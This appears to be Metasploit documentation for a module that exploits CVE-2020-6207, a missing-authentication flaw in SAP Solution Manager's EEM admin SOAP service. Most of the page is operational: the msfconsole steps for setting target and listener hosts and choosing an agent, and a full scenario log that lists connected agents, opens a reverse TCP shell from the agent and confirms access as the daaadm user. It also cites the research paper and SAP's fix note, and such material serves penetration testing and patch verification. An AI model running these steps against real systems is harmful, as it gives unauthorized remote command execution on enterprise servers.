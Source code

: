 ## Vulnerable Application
This module exploits the CVE-2020-6207 vulnerability within the SAP EEM servlet (tc~smd~agent~application~eem) of
SAP Solution Manager (SolMan) running version 7.2. The vulnerability occurs due to missing authentication
checks when submitting a SOAP request to the /EemAdminService/EemAdmin page to get information about connected SMDAgents,
send HTTP request (SSRF) and execute OS command on connected SMDAgent. Works stable in connected SMDAgent with Java version 1.8.

Successful exploitation will allow unauthenticated remote attackers to get reverse shell from connected to the SolMan
agent as the user under which it runs SMDAgent service, usually daaadm.

Paper: [An Unauthenticated Journey to Root][1]

Solution: [sap note 2890213][2]

### Application Background
In SAP landscapes, SolMan could be compared to a domain controller system in the Microsoft world.
It is a technical system that is highly connected with powerful privileges to all other SAP systems.
Once an SAP system is connected to the solution manager, it receives the name of a "managed" or "satellite" system.
As an administration solution, SolMan is intended to centralize the management of all the systems within the landscape by
performing actions such as implementing, supporting, monitoring and maintaining enterprise solutions.

### Installation Steps
Steps to install, configure and manage SolMan can be found online at [this page][3].

Once set up and configured, the instances will be vulnerable at the default HTTP port 50000.

## Verification Steps

1. Start msfconsole
1. Do: `workspace [WORKSPACE]`
1. Do: `use auxiliary/admin/sap/sap_2020_6207_solman_rs`
1. Do: `set RHOSTS [SolMan IP]`
1. Do: `set LHOST [Your IP]`
1. Do: `check`
1. Verify that the target is vulnerable and the list of connected agents was returned.
1. Do: `set AGENT [Connected agent server name]`
1. Do: `exploit`
1. Verify that the session from the connected agent was created.

## Options

### URIPATH

This is the path to the EEM admin page of the SolMan that is vulnerable to CVE-2020-6207.
By default, it is set to `/EemAdminService/EemAdmin`. However, it can be changed if SolMan
was installed by a path different from that of the web root. For example, if the SolMan
server was proxied to the `/solman/` path under the web root, then this value would be
set to `/solman/EemAdminService/EemAdmin`.

### AGENT

Connected agent server name.
Example: `linux_agent`

## Scenarios

### Vulnerable SolMan 7.2 running on agent: test_linux with OS: Linux and java version: 1.8

```
msf6 > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf6 > use exploit/multi/sap/cve_2020_6207_solman_rs
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set RHOST 172.16.30.46
RHOST => 172.16.30.46
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set LHOST 192.168.50.2
LHOST => 192.168.50.2
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > check

[+] Connected agents list:
+--------------+------------------------+---------------+------------------------+--------------+
| Server Name  | Host Name              | Instance Name | OS Name                | Java Version |
+--------------+------------------------+---------------+------------------------+--------------+
| test_linux   | SAPERP.corp.test.com   | SMDA98        | Linux                  | 1.8.0_25     |
| test_windows | SAP731.corp.test.com   | SMDA97        | Windows Server 2008 R2 | 1.6.0_29     |
+--------------+------------------------+---------------+------------------------+--------------+
[+] 172.16.30.46:50000 - The target is vulnerable.
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                            References
---------                ----          ----                                                            ----------
2021-03-21 10:17:11 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution  CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207,URL-https://launchpad.support.sap.com/#/notes/2890213

msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > set AGENT test_linux
AGENT => test_linux
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > exploit

[*] Started reverse TCP handler on 192.168.50.2:4444
[*] Agent: test_linux
[*] OS: Linux
[*] Interpreter: /bin/sh
[*] Enable EEM on agent: test_linux
[*] Start script: b4CyuGQxGdfk with RCE payload on agent: test_linux
[*] Command shell session 1 opened (192.168.50.2:4444 -> 172.16.30.14:24141) at 2021-03-21 13:24:21 +0300

pwd
/usr/sap/DAA/SMDA98/SMDAgent
id
uid=1004(daaadm) gid=1001(sapsys) groups=1001(sapsys),1000(sapinst)
background

Background session 1? [y/N]  y
msf6 exploit(multi/sap/cve_2020_6207_solman_rs) > sessions

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               192.168.50.2:4444 -> 172.16.30.14:24141 (172.16.30.46)

```

[1]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[2]: https://launchpad.support.sap.com/#/notes/2890213
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/
